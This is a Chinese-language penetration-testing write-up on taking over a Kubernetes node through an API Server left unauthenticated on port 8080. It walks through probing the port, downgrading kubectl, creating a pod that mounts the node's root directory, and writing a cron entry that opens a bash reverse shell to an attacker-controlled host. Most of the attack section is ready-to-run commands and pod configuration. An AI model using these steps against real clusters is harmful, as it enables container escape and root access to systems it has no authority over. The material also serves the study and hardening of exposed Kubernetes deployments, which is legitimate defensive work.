








[toc]

## 1. 攻击存在未授权访问漏洞的k8s

### 1.1. 成因

漏洞的起因是因为8080端口未进行限制或者关闭。根据官方文档，API Server 默认会开启两个端口：8080 和 6443。其中 8080 端口无需认证，应该仅用于测试。6443 端口需要认证，且有 TLS 保护。

### 1.2. 攻击步骤

#### 1.2.1. 访问8080端口

访问8080端口，如果返回类似以下信息则表示存在漏洞：


对于8080端口的指纹，则如下：


如果Kubernetes API Server配置了Dashboard,通过路径/api/ui即可访问：


#### 1.2.2. 安装 kubectl

但是测试的这一台并没有配置 dashboard，所以不能通过图形界面来创建容器，只能通过 kubectl（kubectl是官方提供了一个命令行工具 ）来进行操作。kubectl 安装过程如下：
```
# cat <<EOF > /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://packages.cloud.google.com/yum/repos/kubernetes-el7-x86_64
enabled=1
gpgcheck=1
repo_gpgcheck=1
gpgkey=https://packages.cloud.google.com/yum/doc/yum-key.gpg https://packages.cloud.google.com/yum/doc/rpm-package-key.gpg
EOF
# yum install -y kubectl
```

#### 1.2.3. 使用kubectl尝试连接

尝试获取目标机器的信息：


需要注意到是如果你的kubectl版本比服务器的高，会出现如下错误，需要把kubectl的版本降低


下面把kubectl版本降到1.8.7：
```
# curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.8.7/bin/linux/amd64/kubectl
# chmod 777 kubectl
# mv /usr/bin/kubectl /usr/bin/kubectl.bak
# mv kubectl /usr/bin/kubectl
```

查看版本降成了1.8.7，执行命令成功


#### 1.2.4. 挂载目录
接着在本机上新建个yaml文件用于创建容器，并将节点的根目录挂载到容器的 /mnt 目录，内容如下：
```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: test-container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```


然后使用 kubectl 创建容器：
```
// 由 myapp.yaml 创建容器，并使用定时任务反弹shell
# kubectl -s 1.2.3.4:8080 create -f myapp.yaml
// 等待容器创建完成
// 获得 myapp 的交互式 shell
# kubectl -s 1.2.3.4:8080 --namespace=default exec -it myapp bash
// 向 crontab 写入反弹 shell 的定时任务
# echo -e "* * * * * root bash -i >& /dev/tcp/x.x.x.x/8888 0>&1\n" >> /mnt/etc/crontab
```


#### 1.2.5. 获得权限


#### 1.2.6. 总结
其实手法还是挺简单的，基本上和攻击未授权的 docker api一样，通过挂载目录，然后写计划任务来获得shell

#### 1.2.7. 参考链接
https://0x0d.im/archives/attack-container-management-platform.html